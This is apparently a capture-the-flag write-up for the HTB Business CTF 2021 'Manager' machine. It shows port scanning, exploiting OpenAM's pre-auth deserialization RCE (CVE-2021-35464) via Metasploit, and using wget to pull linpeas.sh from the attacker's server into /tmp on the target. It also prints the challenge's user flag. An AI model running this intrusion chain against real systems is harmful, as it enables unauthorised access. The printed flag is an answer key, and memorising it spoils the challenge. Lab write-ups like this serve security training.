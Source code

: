 # HTB Business CTF 2021
## Fullpwn writeup - Manager-user

First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n -Pn -sV 10.129.173.133
```
![Nmap results](nmap.PNG)

As we can see, the machine have open port on 8080 (Apache tomcat). 
I will try to check what is that in browser by typing ```http://10.129.173.133:8080```:

![Checking site...](redir.PNG)

It redirected us to ```http://manager.htb:8080/openam/UI/login``` which is unavailable.
In that case It's good to add in /etc/hosts a static domain to IP mapping and try do it again:

![/etc/hosts changing](etc_hosts.PNG)

After successful change, let's try again and see what's behind it:

![openam website](openam_webiste.PNG)

It's a OpenAM login webiste - we don't have any credentials, so first I checked for exploits for it.
By typing ```openam exploit``` I found the fresh one vulnerability, which is Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464). It's a classic example of Java deserialization - more details you can find [there](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464). On [packet storm](https://packetstormsecurity.com/files/cve/CVE-2021-35464) I found also the raw exploit code and the Metasploit module called ```exploit/multi/http/cve_2021_35464_forgerock_openam```:

![MSF info](msf_openam_info.PNG)

Let's try to use module in Metasploit. We need to setup proper values to use exploit properly. 

![MSF config](msf_config.PNG)

After completing exploit configuration I checked if it is for sure vulnerable and execute the exploit:

![MSF vuln](msf_vuln.PNG)

It opened successfully a session for us, where we can enable interactive shell. 

![MSF tomcat](msf_tomcat.PNG)

We have a access to the machine as a ```tomcat``` user. Tomcat user can write a files in a /tmp/ folder which could be a dropzone for us. I will use that fact to drop linpeas script to check vulnerabilities on that machine in purpouse of obtaining a ```root```. To do that I simply start http server in python on Kali and use wget in shell to download a script:

```
python3 -m http.server 8080
wget 10.10.14.55:8080/linpeas.sh -P /tmp/
```
![Dropzone](linpeas_drop.PNG)

Then I add a execute rights and start a script. 

![Linpeas](linpeas_start.PNG)

When I checked results my eyes stopped on files inside /opt/tomcat. I saw interesting file called user.txt. 

![MSF vuln](tomcat_folder.png)

In that file we have the first flag for tomcat user - HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}. 

![Flag tomcat](user_flag.png)

The second one flag for root user  unfortunaley I didn't catch :/.

